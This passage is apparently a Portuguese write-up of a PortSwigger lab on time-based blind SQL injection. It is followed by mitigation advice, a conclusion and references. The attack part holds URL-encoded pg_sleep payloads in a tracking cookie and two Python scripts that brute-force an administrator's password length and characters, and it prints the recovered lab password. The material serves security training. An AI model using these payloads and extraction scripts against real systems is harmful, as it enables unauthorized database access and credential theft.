Primeiramente vamos analisar a requisição que é feita quando o aplicativo é carregado, para isso, vamos utilizar o Burp Suite.

```http

GET / HTTP/1.1
Host: 0ad300c503da1d9cc00e271b00ad00e6.web-security-academy.net
Cookie: TrackingId=Bo6DofnwE7hELTVL; session=7XtCn6Jr7YG9JssxDvPcZqTceYODETJQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Te: trailers
Connection: close

```

Ao analisar a requisição percebemos que o aplicativo usa um cookie de rastreamento para análise e executa uma consulta SQL contendo o valor do cookie enviado.

Então para fazer o teste de SQL Injection Blind, vamos utilizar o seguinte payload:

```sql
';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

Nessa query estamos fazendo uma comparação entre 1 e 1, caso a comparação seja verdadeira, o banco de dados irá esperar 10 segundos, caso seja falsa, irá esperar 0 segundos. Isso é feito para que possamos descobrir se o banco de dados está vulnerável a SQL Injection.

Porem antes precisamos encodar em URL para que funcionem corretamente.

```sql
'%3bSELECT+CASE+WHEN+(1%3d1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

Agora basta modificar a requisição no Burp Suite e enviar para o aplicativo.

```http
GET / HTTP/1.1
Host: 0ad300c503da1d9cc00e271b00ad00e6.web-security-academy.net
Cookie: TrackingId=Bo6DofnwE7hELTVL'%3bSELECT+CASE+WHEN+(1%3d1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

<div class="page"/>

Agora precisamos verificar se existe um usuário com o nome `administrator` na tabela users, para isso vamos utilizar o seguinte payload:

```sql
'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
Perceba que o payload já está encodado em URL.

Como após o envio da requisição o aplicativo demora 10 segundos para responder, podemos concluir que o usuário `administrator` existe na tabela users.

Agora precisamos descobrir o tamanho da senha do usuário `administrator`, para isso vamos utilizar o seguinte payload:

```sql
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--
```

Onde vamos incrementar o valor de 1 até que o tempo de resposta seja menor que 3 segundos, assim podemos concluir que o tamanho.

Fazer isso manualmente daria muito trabalho, então vamos utilizar o seguinte script para automatizar o processo:

```python
import requests

url = "https://0ad300c503da1d9cc00e271b00ad00e6.web-security-academy.net/"

for i in range(1, 30):
    cookies = {"TrackingId":"TrackingId=TrackingId=Bo6DofnwE7hELTVL'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>"+str(i)+")+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--"}

    r = requests.get(url, cookies=cookies)

    if r.elapsed.total_seconds() < 2:
        print("O tamanho da senha é: " + str(i))
        break

```




Agora eu sabemos que o tamanho da senha é 20, então vamos utilizar o seguinte payload para descobrir a senha:

```sql

TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--

```

Onde vamos testar todos os caracteres possíveis, até que o tempo de resposta seja maior que 3 segundos e também incrementar o `1` até o 20 para saber todos os caracteres da senha.

Também utilizaremos um script para automatizar o processo:

```python
import requests
import string

url = "https://0ad300c503da1d9cc00e271b00ad00e6.web-security-academy.net/"

for i in range(1, 21):
    for j in string.printable:
        cookies = {"TrackingId":"TrackingId=TrackingId=Bo6DofnwE7hELTVL'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,"+str(i)+",1)='"+j+"')+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--"}
        r = requests.get(url, cookies=cookies)
        if r.elapsed.total_seconds() > 2:
            print(j, end="")
            break
```


Agora que temos a senha, podemos fazer login no aplicativo com o usuário `administrator` e a senha `qrdtuehj70okrjnsik7b`
e concluir o laboratório.


---

## **<a id="8">• Mitigação.</a>**

  Existem diversas formas de mitigar a vulnerabilidade de SQL Injection, algumas das quais incluem:

  - **Validação de entrada:** Certifique-se de validar todas as entradas do usuário antes de usá-las em consultas SQL. Isso inclui verificar se os dados estão no formato correto e se estão dentro de um intervalo aceitável.

  - **Uso de parâmetros preparados:** Em vez de concatenar strings de entrada do usuário com comandos SQL, use parâmetros preparados para passar os valores de entrada para o banco de dados. Isso evita que os valores de entrada sejam interpretados como comandos SQL.

  - **Escapando de caracteres especiais:** Escapar ou substituir caracteres especiais, como aspas, evita que os valores de entrada sejam interpretados como comandos SQL.

  - **Limitando os privilégios do usuário:** Limitar os privilégios do usuário no banco de dados ao mínimo necessário para o funcionamento da aplicação diminui a superfície de ataque, caso ocorra uma injeção SQL.

  - **Monitoramento de logs:** Monitorar os logs do banco de dados e da aplicação pode ajudar a detectar tentativas de injeção SQL e identificar ataques em andamento.

  - **Utilizar ferramentas de detecção automática de vulnerabilidade:** Existem ferramentas que podem ser utilizadas para testar automaticamente sua aplicação em busca de vulnerabilidades de SQL Injection.

  - **Treinamento de segurança para equipe de desenvolvimento:** Assegurar que a equipe de desenvolvimento está ciente das vulnerabilidades de SQL Injection e como evitá-las é crucial para garantir a segurança de sua aplicação.

  - **Utilizar firewalls de aplicação web:** Utilizar firewalls de aplicação web (WAF) que detectem e bloqueiem tentativas de SQL Injection.

  Essas são algumas das medidas mais comuns para mitigar a vulnerabilidade de SQL Injection, mas é importante considerar a configuração e o contexto específico da aplicação para avaliar qual abordagem é mais adequada.

---


## **<a id="9">• Dificuldades.</a>**

*Nenhuma dificuldade relevante. Pensei que esse último laboratório iria ser complicado, mas a criação dos scripts foram tranquilas e eles deixaram o processo muito mais rápido =}* 

---

## **<a id="10">• Conclusão.</a>**

**SQL Injection** é uma vulnerabilidade de segurança que ocorre quando um atacante injeta comandos maliciosos em uma consulta SQL através de uma entrada não validada. Essa vulnerabilidade pode permitir que o atacante acesse, altere ou exclua informações confidenciais armazenadas no banco de dados, e também pode ser usada para obter acesso privilegiado ao sistema.

Existem diversas técnicas utilizadas por atacantes para realizar **SQL Injection**, como a injeção de comandos "UNION" e "INFORMATION_SCHEMA", além de técnicas de "blind injection". O impacto dessa vulnerabilidade pode ser significativo, podendo causar danos à reputação, perda de dados, e até mesmo a paralisação do sistema.

Para mitigar essa vulnerabilidade, é importante implementar medidas de segurança como validação de entrada, uso de parâmetros preparados, escapando de caracteres especiais, limitando os privilégios do usuário, monitoramento de logs, utilizar ferramentas de detecção automática de vulnerabilidade, treinamento de segurança para equipe de desenvolvimento e utilizar firewalls de aplicação web.

Em resumo, **SQL Injection** é uma vulnerabilidade comum e potencialmente perigosa que deve ser levada em conta na segurança de aplicações web. É importante implementar medidas de segurança para mitigar essa vulnerabilidade e garantir a segurança dos dados armazenados no banco de dados.

---

## **<a id="11">• Referências.</a>**

- [W3schools - SQL Injection](https://www.w3schools.com/sql/sql_injection.asp)

- [Owasp -SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)

- [Portswigger - SQL injection](https://portswigger.net/web-security/sql-injection)

- [ChatGPT](https://chat.openai.com/chat)


---

## **<a id="12">• Laboratórios.</a>**

  1. [SQL injection vulnerability in WHERE clause allowing retrieval of hidden data.](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

  2. [SQL injection UNION attack, retrieving data from other tables.](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)
 
  3. [SQL injection UNION attack, retrieving multiple values in a single column.](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

  4. [SQL injection attack, querying the database type and version on MySQL and Microsoft.](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)
 
  5. [SQL injection attack, listing the database contents on non-Oracle databases.](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)
 
  6.  [Blind SQL injection with time delays.](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays)
   
  7.  [Blind SQL injection with time delays and information retrieval.](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)


